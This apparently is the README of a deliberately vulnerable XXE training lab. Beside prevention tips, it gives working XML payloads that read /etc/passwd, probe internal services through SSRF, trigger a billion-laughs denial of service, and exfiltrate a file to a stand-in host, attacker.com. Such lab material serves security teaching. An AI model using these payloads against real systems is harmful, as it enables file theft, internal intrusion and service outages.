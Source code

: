 # XXE (XML External Entity) Lab

## Description
This lab demonstrates XML External Entity (XXE) injection vulnerabilities. The application parses XML input without properly disabling external entity resolution.

## Access
- URL: http://localhost:8090

## Vulnerability Details
The XML parser is configured with `resolve_entities=True`, making it vulnerable to XXE attacks.

## Exploitation Examples

### 1. File Disclosure
Read `/etc/passwd`:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <user>&xxe;</user>
    <pass>password</pass>
</data>
```

### 2. SSRF via XXE
Internal network scanning:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://internal-service:80/">
]>
<data>
    <user>&xxe;</user>
</data>
```

### 3. Billion Laughs Attack (DoS)
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
]>
<data>
    <user>&lol4;</user>
</data>
```

### 4. Data Exfiltration
Using parameter entities (if supported):
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
  %exfil;
]>
<data>
    <user>test</user>
</data>
```

## Prevention
- Disable DTDs completely: `resolve_entities=False`
- Use defusedxml library
- Input validation
- Least privilege principle 